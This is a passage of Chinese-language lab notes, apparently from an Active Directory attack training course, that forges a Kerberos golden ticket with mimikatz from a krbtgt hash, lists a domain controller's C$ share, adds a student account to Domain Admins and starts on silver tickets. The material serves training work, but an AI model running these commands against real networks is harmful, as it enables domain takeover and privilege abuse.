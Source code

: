 mimikatz(powershell) # kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *512
ServiceKey: ff46a9d8bd66c6efd77603da26796f35 - rc4_hmac_nt
Lifetime  : 2/13/2022 10:02:06 PM ; 2/14/2022 8:02:06 AM ; 2/20/2022 10:02:06 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session
```

可以查看是否能进入dcorp-dc的c盘来检查当前session是否有目标机器的Administrator权限
```
PS C:\ad> whoami
dcorp\student366
PS C:\ad> ls \\dcorp-dc.dollarcorp.moneycorp.local\c$


    Directory: \\dcorp-dc.dollarcorp.moneycorp.local\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----        8/20/2020   2:05 AM                Windows
```

可以用当前DC上的Administrator的shell，把学生机器添加进DA

```net group "Domain Admins" student366 /ADD /DOMAIN```


# Learning Objective 9:

> Task
> ● Try to get command execution on the domain controller by creating silver ticket for:
> − HOST service
> − WMI


金票和银票的分别
> 1.金票伪造的TGT(Ticket GrantingTicket)，所以可以获取任何Kerberos服务权限
> 2.银票是伪造的TGS的TS，只能访问指定的服务权限
> 3.GoldenTicket是由krbtgt的hash加密
> 4.Silver Ticket是由服务账户（通常为计算机账户）hash加密
> 5.GoldenTicket在使用的过程需要同域控通信
> 6.Silver Ticket在使用的过程不需要同域控通信


上面我们已经知道了DCORP-DC$的哈希，
```
RID  : 000003e8 (1000)
User : DCORP-DC$